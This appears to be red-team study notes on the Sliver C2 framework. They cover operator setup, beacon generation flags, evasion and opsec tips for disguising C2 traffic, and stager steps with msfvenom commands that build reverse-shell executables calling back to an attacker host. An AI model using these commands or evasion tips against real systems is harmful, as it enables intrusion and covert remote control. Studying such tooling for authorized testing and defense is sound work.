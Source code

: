 - Start `sliver-server`
- Help options
```bash
[server] sliver > help

Commands:
=========
  clear       clear the screen
  exit        exit the shell
  help        use 'help [command]' for command help
  monitor     Monitor threat intel platforms for Sliver implants
  wg-config   Generate a new WireGuard client config
  wg-portfwd  List ports forwarded by the WireGuard tun interface
  wg-socks    List socks servers listening on the WireGuard tun interface


Generic:
========
  aliases           List current aliases
  armory            Automatically download and install extensions/aliases
  background        Background an active session
  beacons           Manage beacons
  builders          List external builders
  canaries          List previously generated canaries
  cursed            Chrome/electron post-exploitation tool kit (∩｀-´)⊃━☆ﾟ.*･｡ﾟ
  dns               Start a DNS listener
  generate          Generate an implant binary
  hosts             Manage the database of hosts
  http              Start an HTTP listener
  https             Start an HTTPS listener
  implants          List implant builds
  jobs              Job control
  licenses          Open source licenses
  loot              Manage the server's loot store
  mtls              Start an mTLS listener
  prelude-operator  Manage connection to Prelude's Operator
  profiles          List existing profiles
  reaction          Manage automatic reactions to events
  regenerate        Regenerate an implant
  sessions          Session management
  settings          Manage client settings
  stage-listener    Start a stager listener
  tasks             Beacon task management
  update            Check for updates
  use               Switch the active session or beacon
  version           Display version information
  websites          Host static content (used with HTTP C2)
  wg                Start a WireGuard listener


Multiplayer:
============
  kick-operator  Kick an operator from the server
  multiplayer    Enable multiplayer mode
  new-operator   Create a new operator config file
  operators      Manage operators


For even more information, please see our wiki: https://github.com/BishopFox/sliver/wiki

```
#### Operator profile

Sliver can differentiate who can connect based on the generated profile from its server. A profile can be generated using the `new-operator` command followed by the operator's name (`-n`) and the listening host IP address (`-l`).

## Armory

The previous section introduced us to the [armory](https://github.com/sliverarmory) portion of `Sliver`. Its capability of having pre-installed .NET binaries ready to be used makes the operators' lives easier. However, one of the drawbacks that one might stumble upon is the detection of the tools. In the future, we may need to think of a way to change the internals of the tools to avoid being detected.

## Beacon vs Session

- beacon responds at fixed intervals
- sessions are interactive
- a beacon can be turned into a session

#### Generating a beacon

```
[server] sliver > generate beacon --help

Generate a beacon binary

Usage:
======
  beacon [flags]

Flags:
======
  -a, --arch               string    cpu architecture (default: amd64)
  -c, --canary             string    canary domain(s)
  -D, --days               int       beacon interval days (default: 0)
  -d, --debug                        enable debug features
  -O, --debug-file         string    path to debug output
  -G, --disable-sgn                  disable shikata ga nai shellcode encoder
  -n, --dns                string    dns connection strings
  -e, --evasion                      enable evasion features  (e.g. overwrite user space hooks)
  -E, --external-builder             use an external builder
  -f, --format             string    Specifies the output formats, valid values are: 'exe', 'shared' (for dynamic libraries), 'service' (see `psexec` for more info) and 'shellcode' (windows only) (default: exe)
  -h, --help                         display help
  -H, --hours              int       beacon interval hours (default: 0)
  -b, --http               string    http(s) connection strings
  -J, --jitter             int       beacon interval jitter in seconds (default: 30)
  -X, --key-exchange       int       wg key-exchange port (default: 1337)
  -w, --limit-datetime     string    limit execution to before datetime
  -x, --limit-domainjoined           limit execution to domain joined machines
  -F, --limit-fileexists   string    limit execution to hosts with this file in the filesystem
  -z, --limit-hostname     string    limit execution to specified hostname
  -L, --limit-locale       string    limit execution to hosts that match this locale
  -y, --limit-username     string    limit execution to specified username
  -k, --max-errors         int       max number of connection errors (default: 1000)
  -M, --minutes            int       beacon interval minutes (default: 0)
  -m, --mtls               string    mtls connection strings
  -N, --name               string    agent name
  -p, --named-pipe         string    named-pipe connection strings
  -o, --os                 string    operating system (default: windows)
  -P, --poll-timeout       int       long poll request timeout (default: 360)
  -j, --reconnect          int       attempt to reconnect every n second(s) (default: 60)
  -R, --run-at-load                  run the implant entrypoint from DllMain/Constructor (shared library only)
  -s, --save               string    directory/file to the binary to
  -S, --seconds            int       beacon interval seconds (default: 60)
  -l, --skip-symbols                 skip symbol obfuscation
  -Z, --strategy           string    specify a connection strategy (r = random, rd = random domain, s = sequential)
  -T, --tcp-comms          int       wg c2 comms port (default: 8888)
  -i, --tcp-pivot          string    tcp-pivot connection strings
  -I, --template           string    implant code template (default: sliver)
  -t, --timeout            int       command timeout in seconds (default: 60)
  -g, --wg                 string    wg connection strings

```

- `-J, --jitter` configures the jitter time of the callback so that the implant will fluctuate based on the value
- `-S, --seconds` sets the time interval of the callback
- beacon modes are `mTLS, HTTP(s), DNS, named pipes, or tcp pivots`
- `--skip-symbols` disables symbol obfuscation

##### Example of generating an obfuscated beacon
```shell-session
generate beacon --http 127.0.0.1 -N http_beacon_obfuscated --os windows
```

#### Listeners
- connect the implant to the C2 server

#### Opsec Note

Though the C2 traffic of Sliver looks legitimate, using HTTPS, MTLS, or WireGuard listeners to establish a more secure channel adds a layer of protection. For the HTTP(S) listener, we can make some modifications to the C2 profile file `~/.sliver/config/http-c2.json`, such as adding a legitimate request or response headers and changing filenames and extensions in URL generation. We can refer to the Sliver wiki to understand the profile file [HTTP(s) under the hood](https://sliver.sh/docs?name=HTTPS+C2).

It is valuable to remember that when interacting with sessions in `Sliver`, the names are usually `RED`, and the beacon ones are in `BLUE`. Knowing that difference can be helpful as the sessions are interactive, and the beacons are not, as mentioned in the previous sections.

### Execute and Execute-Assembly
- both with spawn child processes 

## Privilege Escalation

- https://sliver.sh/docs?name=Aliases+and+Extensions
- Alias is a wrapper around sideload (load and execute a shared library in memory)
- Extensions are artifacts of native code loaded by the implant and passed specific callbacks to return data to the C2 server

- *OPSEC Note: By default, execute-assembly will start a sacrificial process (notepad.exe); this can be changed using the --process and specifying the process.*

## Stager steps

1. start a listener
```bash
mtls -l <port1>
```

2. configure a profile
```bash
profile new --mtls ip:port1 -l -f <option like shellcode> <profile name>
profile new beacon --mtls ip:port1 -f -f <option> <profile name>
```

3. configure stage listeners
```bash
stage-listener -u http://LHOST:<port2> -p <profile name>
stage-listener -u tcp://LHOST:<port3> -p <profile name>
```

4. example payloads with msfvenom 
```bash
msfvenom -p windows/x64/custom/reverse_tcp lhost=LHOST lport=<port3> -f exe -o tcp.exe 
msfvenom -p windows/x64/custom/reverse_winhttp lhost=LHOST lport=<port2> LURI=/path.woff -f exe -o http.exe
```

